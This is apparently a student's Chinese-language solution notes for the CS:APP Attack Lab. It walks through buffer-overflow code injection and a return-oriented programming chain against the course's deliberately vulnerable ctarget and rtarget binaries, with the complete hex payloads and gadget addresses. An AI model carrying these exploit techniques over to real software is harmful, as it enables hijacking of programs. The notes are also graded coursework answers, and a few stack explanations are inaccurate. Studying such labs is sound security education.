


# L3-Attack-Note

提示: 本笔记显式地包括答案, 如果你想自己独立完成该实验, 建议只阅读 **准备工作** 与 **题目说明** 部分.

目前未完成.

## 目录

1. 准备工作
2. 题目说明
   3. Hex2raw 工具讲解
   2. Byte Codes生成s
4. 题解: CTARGET 
   1. Level1
   2. Level2
   3. Level3
5. 题解: RTARGET 
   1. Gadget Farm 的使用
   2. RLevel2
5. 后记


## 准备工作

本实验在教材中只对应了两小节的内容, 讲座也仅有Lec 9 , 需要大量补充学习.

请一定要在 [官网下载](http://csapp.cs.cmu.edu/3e/attacklab.pdf) 并阅读 attack.pdf

## 题目说明

默认你已经阅读过教材的 3.10 部分

本题包括两部分, Ctarget与Rarget. 第一部分是利用缓冲区溢出以及代码注入技术进行攻击; 第二部分是利用面向返回编程方法对代码执行进行控制.

### 如何开始

本题需要你实现编写一个 txt 文件, 必须仅有十六进制数字与空格组成. 通过Hex2raw 工具将该文件转为二进制文件filename 再进行下一步.

```
使用
./ctarget -i filename -q
或者
./rtarget -i filename -q
```

 其中 `-i`指令表示通过文件输入, `-q`表示脱网使用. 如果你也是自学者, 必须每次执行都加上这个参数.

cookie 是每个CMU学生的一个身份识别码. 如果你是自学者, cookie应该都是0x59b997fa, 这串数字会在解题中扮演一定的角色.


### A:Hex2raw 工具讲解

由 `in.txt`文件转为二进制文件`out`需要执行代码

```
./hex2raw <in.txt > out
```


### B:ByteCodes生成

众所周知, 汇编代码是与机器的字节码一一对应的, 那么如果由汇编代码转化为字节编码呢? 我们只需要先撰写汇编代码文件 `example.s` , 使用 gcc 将其编译, 再将其反编译为中间文件即可.

```
gcc -c example.s
objdump -d example.o > example.d
```

打开 example.d 即可看见对应的机器码了.

## 题解: CTARGET 

我们首先明确一下我们要干什么. 假设你已经阅读过教材 3.10.3 小结, 你应该知道我们的目标是利用缓冲区溢出来使得函数返回时返回至另外的,出乎意料的, 由我们(攻击者)提供的函数地址上. 基本的原理不在这里多说.

下面的叙述均基于 CTARGET  为背景.

### **Level1**

#### test函数

这个函数是我们将攻击的代码. 我们通过 `getbuf` 函数输入一串字符, 理论上正常返回时会返回整型 `1` 储存在 `val`中 并打印, 退出. 

```c
//test 函数的C语言表述
1void test(){
	int val;
	val = getbuf();
	printf("No exploit. Getbuf returned 0x%x\n", val);
}
```


下面来观察汇编代码

```
//test 函数的汇编表述
Dump of assembler code for function test:
    0x0000000000401968 <+0>:	sub    $0x8,%rsp
    0x000000000040196c <+4>:	mov    $0x0,%eax
    0x0000000000401971 <+9>:	callq  0x4017a8 <getbuf>
    0x0000000000401976 <+14>:	mov    %eax,%edx
    0x0000000000401978 <+16>:	mov    $0x403188,%esi
    0x000000000040197d <+21>:	mov    $0x1,%edi
    0x0000000000401982 <+26>:	mov    $0x0,%eax
    0x0000000000401987 <+31>:	callq  0x400df0 <__printf_chk@plt>
    0x000000000040198c <+36>:	add    $0x8,%rsp
    0x0000000000401990 <+40>:	retq 
```


我们注意<+9> 这一行, `callq` 函数的操作对象是一个地址, 目前这个地址是指向到 `getbuf`函数

在`getbuf`结束后, 应当返回到下一个地址, 即0x401976 , 称为原地址. 

> 事实上, 当我们在使用`callq`某个函数的时候, 下一条指令的地址(即上面提到的原地址) 会被push进栈中. 换言之, 当被调用函数结束, 执行 `retq`指令时, 是读取栈顶的元素作为跳转的地址. 在正常情况下就会跳转至原地址, 程序继续运行.

我们的目标就是替换掉栈顶的原地址, 将其修改为我们期望转到的 `touch1`函数的开始地址, 称为目标地址.

于是任务变成了:

1. 找到堆栈中原地址的储存位置
2. 确定目标地址的地址
3. 将原地址替换为目标地址


#### getbuf 函数

我们可以看到它的C代码如下

```c
//getbuf 函数的C语言表述
unsigned getbuf(){
	char buf[BUFFER_SIZE];
	GETs(buf);
	return 1;
}
```

首先的问题是, 我们需要知道这个缓冲区设置有多长? .我们照例查看其汇编代码:

```
//getbuf()
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	sub    $0x28,%rsp
   0x00000000004017ac <+4>:	mov    %rsp,%rdi
   0x00000000004017af <+7>:	callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	retq   
```

我们注意到在代码开始处, 堆栈扩充了 0x28 个大小. 

这说明缓冲区大小即为0x28

> BUFF_SIZE 大小应该是与缓冲区是两个概念.
>
> 例如 教材3.10小节的代码. 实际上分配的字符数组为 `buf[8] `, 但是体现在汇编代码中就变成了`subq $24,%rsp` , 此处SIZE应该是8 , 而缓冲区大小则是 0x24.

在整个过程中栈的变化是这样的:

> 假设在test函数的`callq`语句调用之前, 栈顶指针`$rsp` 为 0x666600, 当前执行语句 `$rip` 为0x401971
>
> 1. 调用`callq`语句, 将下一条语句( 原地址, 0x0401976) 推入栈中, 即0x666600处, 栈指针 `$rsp`  变为0x666601
> 2. 进入`getbuf`语句, 在`0x4017a8`处分配了0x28个栈, 此时栈顶指针为0x666629
> 3. `getbuf`函数正常运行. 直到读入过量字符数组数据时, 将0x666600处的原地址覆盖为目标地址 ,此时栈顶依旧为0x666629
> 4. 继续运行至0x4017b9处, 收回栈空间, 此时栈顶又变为0x666601
> 5. `retq`语句, 取栈顶元素0x666600处的地址 (已经被覆盖成目标地址了) 并跳转. 即达到我们的目的.
>
> 嗯......应该不会有人疑惑上一步栈顶不是0x666601为什么取0x666600的元素吧...
>
> 因为栈指针是指向栈顶下一个地址的...

不妨使用gdb的查看指令检验一下

```
//在 +12 设置一个断点
//事先输入的字符串为 "abcdef"
(gdb) print (char*) ($rsp)
$1 = 0x5561dc78 "abcdef"
//可以看出, 堆栈的起始位置即储存了输入的字符串

(gdb) x/a ($rsp+0x28) 
0x5561dca0:	0x401976 <test+14>
//可以看出, 当我们试图查看 ($rsp+0x28) 储存的地址时, 发现正好时test+14的地址, 也就是我们的原地址. 
```

那么我们现在只需要使用目标地址替换原地址即可.

#### touch1 函数

```
//touch1 反汇编
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:	sub    $0x8,%rsp
   0x00000000004017c4 <+4>:	movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:	mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:	callq  0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:	mov    $0x1,%edi
   0x00000000004017dd <+29>:	callq  0x401c8d <validate>
   0x00000000004017e2 <+34>:	mov    $0x0,%edi
   0x00000000004017e7 <+39>:	callq  0x400e40 <exit@plt>
```

显然目标地址就是 `0x4017c0`


因此, 我们应当输入的数字如下:

> 00 00 00 00 00 00 00 00 00 00 
>
> 00 00 00 00 00 00 00 00 00 00 
>
> 00 00 00 00 00 00 00 00 00 00 
>
> 00 00 00 00 00 00 00 00 00 00 
>
> c0 17 40 00 00 00 00 00 00 00 

上面的内容不能直接在`ctarget`运行时输入, 而要使用 `Hex2raw`工具处理. 具体请参看上面的  `Hex2raw` 讲解部分.

我们将上述材料存储在文件`in.txt`内, 并使用 `Hex2raw`工具将其转化为 二进制 文件并输入. 

```
//shell输入
./hex2raw  <in.txt> out
./ctarget -i out -q

//shell输出
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
```

说明我们已经过了第一关


---


### Level2

第二题的背景依旧是test函数. 除了将getbuf函数中的返回地址改为touch2函数的地址外, 还需要将注入的字符串作为代码运行. 相对复杂.

我们先来看touch2函数

#### touch2 函数

```c
//touch2 函数的C语言表述
void touch2(unsigned val){
   if (val == cookie)
   {
      printf("Touch2!: You called touch2(0x%.8x)\n", val); 
      validate(2);
   }else
   {
      printf(printf("Misfire: You called touch2(0x%.8x)\n",val); 
      fail(2);
   }
}
```

 可见, touch2函数中会进行参数val与你的cookie进行比较, 当相同时才认为你通关. 接着看touch2的汇编代码

```
//touch2 函数的汇编表述
Dump of assembler code for function touch2:
    0x00000000004017ec <+0>:	sub    $0x8,%rsp
    0x00000000004017f0 <+4>:	mov    %edi,%edx
    0x00000000004017f2 <+6>:	movl   $0x2,0x202ce0(%rip)        # 0x6044dc <vlevel>
    0x00000000004017fc <+16>:	cmp    0x202ce2(%rip),%edi        # 0x6044e4 <cookie>
    0x0000000000401802 <+22>:	jne    0x401824 <touch2+56>
    0x0000000000401804 <+24>:	mov    $0x4030e8,%esi
    0x0000000000401809 <+29>:	mov    $0x1,%edi
    0x000000000040180e <+34>:	mov    $0x0,%eax
    0x0000000000401813 <+39>:	callq  0x400df0 <__printf_chk@plt>
    0x0000000000401818 <+44>:	mov    $0x2,%edi
    0x000000000040181d <+49>:	callq  0x401c8d <validate>
    0x0000000000401822 <+54>:	jmp    0x401842 <touch2+86>
    0x0000000000401824 <+56>:	mov    $0x403110,%esi
    0x0000000000401829 <+61>:	mov    $0x1,%edi
    0x000000000040182e <+66>:	mov    $0x0,%eax
    0x0000000000401833 <+71>:	callq  0x400df0 <__printf_chk@plt>
    0x0000000000401838 <+76>:	mov    $0x2,%edi
    0x000000000040183d <+81>:	callq  0x401d4f <fail>
    0x0000000000401842 <+86>:	mov    $0x0,%edi
    0x0000000000401847 <+91>:	callq  0x400e40 <exit@plt>
```

这里注意一下 +4 行. `%edi` 还记得吗? 是默认的传入函数的第一个参数. 也就是说, 我们要在调用touch2之前, 将 `%edi`寄存器的值设置为我们的cookie. 如果只是类似上一题中的代码跳转的话, 我们没有办法对寄存器进行实际的修改, 所以我们需要将自己的代码注入进去后能够实际运行它们.

#### 注入代码的执行

具体的操作为: getbuf 结束后, 返回地址指向栈中. (准确的说是我们注入的字符数组) 使得我们注入的字符被解析成汇编代码并被运行. 在这段注入的代码末尾再跳转进touch2函数.

也就是说, 我们注入的字符需要实际上实现下面这段汇编代码的功能.

```
//注入代码需要实现的功能
//这些保存在 touch2_tmp.s 中
mov $0x59b997fa,%rdi		//将cookie写入%edi寄存器
pushq $0x4017ec				//将touch2首地址推入栈顶
retq						//retq在执行时,将跳转touch2函数
```

通过使用Byte Codes生成器(参看对应的讲解), 我们可以拿到这些ByteCode:

```
gcc -c touch2_tmp.s 			//使用汇编器生成二进制的可重定位目标程序touch2_tmp.o
objdump -d touch2_tmp.o >touch2_tmp.d	//使用objdump将目标文件得到中间文件

//下面是中间文件touch2_tmp.d中的内容,有精间
0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
7:   68 ec 17 40 00          pushq  $0x4017ec
c:   c3                      retq

```


#### 最后的小处理

我们还需要对最终的in2文件进行小小的处理

```
//这是 in2.txt 文件中的内容
48 c7 c7 fa 97 b9 59
68 ec 17 40 00
c3
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 
78 dc 61 55 00 00 00 00
```

上述代码的前3行就是我们拿到的 touch2_tmp.d 中的ByteCode

4-7行是为了填充缓冲区, 事实上1-7行一共有 0x28   个字符  <span style="background-color: #252525">不信你数数</span>

第8行是将getbuf函数的返回地址覆盖为第1行的地址 0x5561dc78, 这个地址是很容易拿到的.


**大功告成**

```
//shell输入
./hex2raw <in2.txt> out2
./ctarget -i out2 -q


//shell输出
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 
```

第二关就过啦~~

---


### Level3

第三题的背景依旧是test函数. 表面逻辑: 在getbuf 函数结束后跳转至 touch3 函数. 并且在touch3函数中需要调用hexmatch函数, 后者是这么一个函数: 传入一个地址, 并读取该地址存储的字符串, 这个字符串应该是与cookie相同. (不包括前缀0x).

整体的思路类似Level2, getbuf 函数结束后跳转至缓冲区中注入的代码. 在注入代码中将参数1设置为字符串的地址, 并且注入代码段结束后跳转至touch3函数. 

在retq语句跳转至其他函数我们已经的轻车熟路了, 这里直接给出touch3的首地址: `0x4018fa`, 我们需要在注入代码中实现该地址的入栈, 这样注入代码的返回会读取栈顶, 从而跳转至touch3.

基本分析完毕, 现在需要考虑的只剩:

1. 注入什么字符串?
2. 将字符串注入在哪?

#### 字符串注入内容

我们需要将cookie转化为字符串, 这里需要注意两点: 

1. 每个字符占一个字节. 使用ASCII码表示
2. 字符串的结尾需要使用`\0`结尾

在Linux平台下, 执行`man ascii`命令可以获取ASCII码表, 对应的编码很容易对照获得

```
//cookie 的ASCII表述
35 39 62 39 39 37 66 61 00
```

#### 字符串注入位置

这里比较坑. 

我们看一下 hexmatch 函数

```c
//hexmatch C语言表述
int hexmatch(unsigned val, char *sval){
   char cbuf[110];
   char *s = cbuf + random()%100;
   sprintf(s, "%.8x", val);
   return strncmo(sval, s, 9) == 0;
}
```

当我们在对缓冲区写入的时候, 实际上的可以写入的地方包括: test函数的栈帧, getbuf函数的栈帧, 以及其他地方. 但是当我们从getbuf函数返回的时候, 原本的getbuf栈帧被回收(虽然里面的数据没有清掉) , 并且在之后分配在了hexmatch 的栈帧上. 

那么栈的分配与回收仅仅是栈指针的变动, 可不可以将数据依旧储存在栈帧里面呢? 很遗憾也是不行的. 在hexmatch函数中划分了一个长度为110 的char数组, 并且将s字符串的地址设置为其中的的任意处, 这就使得你原本储存的数据**有可能**被覆盖掉.

于是, 我们选择将数据写入test函数的栈帧中.

**存疑**: 可不可以将数据写入栈的其他位置? 比如栈 120 处.


#### 字节代码的编写

根据以上分析, 我们已经能够写出需要注入的部分

```
mov   $0x5561dca8,%rdi      //将字符串地址推入rdi 此条地址(执行代码的首地址)为0x5561dc78
pushq $0x4018fa             //touch3地址
retq
...补全缓冲区 28
...缓冲区内的执行代码的首地址 (8位地址)0x5561dc78
...储存cookie, 写入语句 35 39 62 39 39 37 66 61 00
```

上述1-3行, 是将会执行的代码, 包括将字符串地址设为参数1, 将touch3地址入栈, 以及返回touch3

第4行是填满缓冲区的, 1-4行总计28字节

缓冲区后属于test的栈帧, 最底处保存的是getbuf的retq返回地址, 指向执行代码的首地址.

test更往后的地方就是我们储存cookie的地方. 此处的地址即为字符串地址0x0x5561dca8


#### 最终答案

```
48 c7 c7 a8 dc 61 55
68 fa 18 40 00
c3
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00
78 dc 61 55 00 00 00 00 
35 39 62 39 39 37 66 61 00
```

1-3: 执行代码

4-7: 填充

8: 执行代码的首地址

9: 字符串地址的首地址

**大功告成**

```
//shell输入
./hex2raw <in3.txt> out3
./ctarget -i out3 -q

//shell输出
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00 
```


---


## 题解: RTARGET 

我们在上一部分利用了缓冲区溢出, 从而劫持返回地址, 将地址返回至我们期望的地址. 除此之外我们还将代码注入进缓冲区, 并通过返回地址执行这段代码. 我们还注意到了在程序的运行的过程中可能存在的内存覆盖, 因此我们规避并选取适当的地方来储存数据.

上述手段被称为 **代码注入攻击** (code injection attack) 已经是"莫里斯蠕虫"时代的手法了, 现代编译器使用 **地址空间布局随机化**(Address space layout randomization, ASLR), 栈空间代码禁止执行(增加 "可执行" 的权限位) , 与**金丝雀**(Canary) 等多种手段防范代码注入攻击. 对于前两种防御手段, 黑客们使用了名为 **面向返回编程** (Return-oriented programming, ROP) 的技巧, 仅仅使用原有代码的部分碎片拼接成待执行的代码. 

本题将学习ROP来进行代码攻击. 在此之前, 有必要讲解 *gadgetfarm*

### Gadget Farm 的使用

在rtagret中包括了一系列函数,  里面包括的一系列字节码将被我们作为碎片(gadget) 进行拼接并使用. 这些函数被称为farm函数

我们可以拿到 farm 中的小gadgets:

```
objdump rtarget > farm-dump.txt
```


 得到的文件中只有一部分是我们需要的, 删去不必要的代码后, 最终拿到:

```
rtarget:     file format elf64-x86-64

Disassembly of section .init:

0000000000401994 <start_farm>:
  401994:	b8 01 00 00 00       	mov    $0x1,%eax
  401999:	c3                   	retq   

000000000040199a <getval_142>:
  40199a:	b8 fb 78 90 90       	mov    $0x909078fb,%eax
  40199f:	c3                   	retq   

00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   

00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   

00000000004019ae <setval_237>:
  4019ae:	c7 07 48 89 c7 c7    	movl   $0xc7c78948,(%rdi)
  4019b4:	c3                   	retq   

00000000004019b5 <setval_424>:
  4019b5:	c7 07 54 c2 58 92    	movl   $0x9258c254,(%rdi)
  4019bb:	c3                   	retq   

00000000004019bc <setval_470>:
  4019bc:	c7 07 63 48 8d c7    	movl   $0xc78d4863,(%rdi)
  4019c2:	c3                   	retq   

00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   

00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq   

00000000004019d0 <mid_farm>:
  4019d0:	b8 01 00 00 00       	mov    $0x1,%eax
  4019d5:	c3                   	retq   

00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq   

00000000004019db <getval_481>:
  4019db:	b8 5c 89 c2 90       	mov    $0x90c2895c,%eax
  4019e0:	c3                   	retq   

00000000004019e1 <setval_296>:
  4019e1:	c7 07 99 d1 90 90    	movl   $0x9090d199,(%rdi)
  4019e7:	c3                   	retq   

00000000004019e8 <addval_113>:
  4019e8:	8d 87 89 ce 78 c9    	lea    -0x36873177(%rdi),%eax
  4019ee:	c3                   	retq   

00000000004019ef <addval_490>:
  4019ef:	8d 87 8d d1 20 db    	lea    -0x24df2e73(%rdi),%eax
  4019f5:	c3                   	retq   

00000000004019f6 <getval_226>:
  4019f6:	b8 89 d1 48 c0       	mov    $0xc048d189,%eax
  4019fb:	c3                   	retq   

00000000004019fc <setval_384>:
  4019fc:	c7 07 81 d1 84 c0    	movl   $0xc084d181,(%rdi)
  401a02:	c3                   	retq   

0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	retq   

0000000000401a0a <setval_276>:
  401a0a:	c7 07 88 c2 08 c9    	movl   $0xc908c288,(%rdi)
  401a10:	c3                   	retq   

0000000000401a11 <addval_436>:
  401a11:	8d 87 89 ce 90 90    	lea    -0x6f6f3177(%rdi),%eax
  401a17:	c3                   	retq   

0000000000401a18 <getval_345>:
  401a18:	b8 48 89 e0 c1       	mov    $0xc1e08948,%eax
  401a1d:	c3                   	retq   

0000000000401a1e <addval_479>:
  401a1e:	8d 87 89 c2 00 c9    	lea    -0x36ff3d77(%rdi),%eax
  401a24:	c3                   	retq   

0000000000401a25 <addval_187>:
  401a25:	8d 87 89 ce 38 c0    	lea    -0x3fc73177(%rdi),%eax
  401a2b:	c3                   	retq   

0000000000401a2c <setval_248>:
  401a2c:	c7 07 81 ce 08 db    	movl   $0xdb08ce81,(%rdi)
  401a32:	c3                   	retq   

0000000000401a33 <getval_159>:
  401a33:	b8 89 d1 38 c9       	mov    $0xc938d189,%eax
  401a38:	c3                   	retq   

0000000000401a39 <addval_110>:
  401a39:	8d 87 c8 89 e0 c3    	lea    -0x3c1f7638(%rdi),%eax
  401a3f:	c3                   	retq   

0000000000401a40 <addval_487>:
  401a40:	8d 87 89 c2 84 c0    	lea    -0x3f7b3d77(%rdi),%eax
  401a46:	c3                   	retq   

0000000000401a47 <addval_201>:
  401a47:	8d 87 48 89 e0 c7    	lea    -0x381f76b8(%rdi),%eax
  401a4d:	c3                   	retq   

0000000000401a4e <getval_272>:
  401a4e:	b8 99 d1 08 d2       	mov    $0xd208d199,%eax
  401a53:	c3                   	retq   

0000000000401a54 <getval_155>:
  401a54:	b8 89 c2 c4 c9       	mov    $0xc9c4c289,%eax
  401a59:	c3                   	retq   

0000000000401a5a <setval_299>:
  401a5a:	c7 07 48 89 e0 91    	movl   $0x91e08948,(%rdi)
  401a60:	c3                   	retq   

0000000000401a61 <addval_404>:
  401a61:	8d 87 89 ce 92 c3    	lea    -0x3c6d3177(%rdi),%eax
  401a67:	c3                   	retq   

0000000000401a68 <getval_311>:
  401a68:	b8 89 d1 08 db       	mov    $0xdb08d189,%eax
  401a6d:	c3                   	retq   

0000000000401a6e <setval_167>:
  401a6e:	c7 07 89 d1 91 c3    	movl   $0xc391d189,(%rdi)
  401a74:	c3                   	retq   

0000000000401a75 <setval_328>:
  401a75:	c7 07 81 c2 38 d2    	movl   $0xd238c281,(%rdi)
  401a7b:	c3                   	retq   

0000000000401a7c <setval_450>:
  401a7c:	c7 07 09 ce 08 c9    	movl   $0xc908ce09,(%rdi)
  401a82:	c3                   	retq   

0000000000401a83 <addval_358>:
  401a83:	8d 87 08 89 e0 90    	lea    -0x6f1f76f8(%rdi),%eax
  401a89:	c3                   	retq   

0000000000401a8a <addval_124>:
  401a8a:	8d 87 89 c2 c7 3c    	lea    0x3cc7c289(%rdi),%eax
  401a90:	c3                   	retq   

0000000000401a91 <getval_169>:
  401a91:	b8 88 ce 20 c0       	mov    $0xc020ce88,%eax
  401a96:	c3                   	retq   

0000000000401a97 <setval_181>:
  401a97:	c7 07 48 89 e0 c2    	movl   $0xc2e08948,(%rdi)
  401a9d:	c3                   	retq   

0000000000401a9e <addval_184>:
  401a9e:	8d 87 89 c2 60 d2    	lea    -0x2d9f3d77(%rdi),%eax
  401aa4:	c3                   	retq   

0000000000401aa5 <getval_472>:
  401aa5:	b8 8d ce 20 d2       	mov    $0xd220ce8d,%eax
  401aaa:	c3                   	retq   

0000000000401aab <setval_350>:
  401aab:	c7 07 48 89 e0 90    	movl   $0x90e08948,(%rdi)
  401ab1:	c3                   	retq   

0000000000401ab2 <end_farm>:
  401ab2:	b8 01 00 00 00       	mov    $0x1,%eax
  401ab7:	c3                   	retq   
  401ab8:	90                   	nop
  401ab9:	90                   	nop
  401aba:	90                   	nop
  401abb:	90                   	nop
  401abc:	90                   	nop
  401abd:	90                   	nop
  401abe:	90                   	nop
  401abf:	90                   	nop
```


题目还提供了部分汇编指令的对应的字节表示:



### RLevel2 

题目本身与Ctarget一致, 区别在于源代码编译的过程中使用了ASLR与禁止栈执行. 笔记中前缀 R 以示区分.

先来回顾一下我们在Level2中干了什么, 我们将代码注入了缓冲区, 并运行之, 从而使得cookie写入rdi寄存器. 

在本题中, 我们选择先将 cookie 存入栈中, 然后使用 pop 指令将cookie推入$rdi 寄存器.

然而很遗憾, farm中并没有 `pop $rdi`对应的指令 5f , 倒是 `pop $rax` 对应的58指令频繁出现, 我们于是考虑迂回作战, 先将cookie推入rax, 再使用 `mov $rax,$rdi` 完成目标.

farm中有很多条路径可以实现上述目标, 我选择的是 `<getval_280>` 与 `<setval_426>`

```
00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq  
/*
起始于0x4019cc
58 : pop $rax 
90 : no op
c3 : retq
*/


00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   
/*
起始于0x4019c5
48 89 c7 : mov $rax,$rdi
90 : no op
c3 : retq
*/
```

 

因此图解如下: 



答案为

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```


大功告成

```
//shell 输入
./hex2raw <in4.txt > out4
./rtarget -i out4 -q

//shell 输出
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 CC 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 

```


## 后记

2020年7月3日~7月8日. 完成了CS:APP 第三个配套实验 Attack Lab.

这个实验包括了大量的需要自学的内容, 涉及到内存中栈的管理, 函数跳转(retq)的方式, 缓冲区溢出错误, gets()等函数的缺陷等知识点. 了解并尝试了 代码注入攻击, 面向返回编程等代码攻击手段. 了解了 空间布局随机化, 栈禁止执行, 金丝雀区的设置 等代码防御方式.

提高了自学能力以及对 gdb 等调试工具的使用能力.

由于本实验最后一小题 RLevel3 本身并没有新知识点 但需要花费大量时间解题, 故暂时略去不做.